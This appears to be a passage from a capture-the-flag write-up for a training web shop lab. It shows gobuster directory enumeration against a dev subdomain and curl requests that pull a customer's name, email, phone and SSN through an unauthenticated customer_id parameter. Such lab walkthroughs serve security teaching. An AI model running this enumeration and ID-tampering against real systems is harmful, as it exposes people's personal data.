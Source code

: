 ```jsx
            <div class="product_holder" style="border:1px solid #ececec;padding: 15px;margin-bottom:15px">
                <div class="image text-center"><a href="/product?id=1&name=Hoodie+%2B+Tee"><img class="img-thumbnail" src="/product/picture/?file=c10fc8ea58cb0caef1edbc0949337ff1.jpg"></a></div>
                <div class="text-center" style="font-size:20px"><strong><a href="/product?id=1">Hoodie + Tee</a></strong></div>
                <div class="text-center"><strong>$25.00</strong></div>
                <div class="text-center" style="margin-top:10px"><a href="/product?id=1" class="btn btn-success">View</a></div>
            </div>
            
[REDACTED] - MORE
```

`gobuster dir -u http://nahamstore-2020-dev.nahamstore.thm -w /usr/share/wordlists/dirb/common.txt -b 403,404,500,501,502,503 -e --random-agent -x php,txt,html -t 50`

```jsx
http://nahamstore-2020-dev.nahamstore.thm/api                  (Status: 302) [Size: 0] [--> /api/]
```

`gobuster dir -u http://nahamstore-2020-dev.nahamstore.thm/api/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt -b 403,404,500,501,502,503 -e --random-agent -x php,txt,html -t 50`

```jsx
http://nahamstore-2020-dev.nahamstore.thm/api/customers            (Status: 302) [Size: 0] [--> /api/customers/]
```

`curl -iLX GET http://nahamstore-2020-dev.nahamstore.thm/api/customers`

```jsx
HTTP/1.1 302 Found
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 20 Dec 2024 08:09:18 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Location: /api/customers/

HTTP/1.1 400 Bad Request
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 20 Dec 2024 08:09:19 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive

["customer_id is required"] 
```

`curl -sX GET 'http://nahamstore-2020-dev.nahamstore.thm/api/customers/?customer_id=2' | jq`

```jsx
{
  "id": 2,
  "name": "Jimmy Jones",
  "email": "jd.jones1997@yahoo.com",
  "tel": "501-392-5473",
  "ssn": "521-61-6392"
}
```
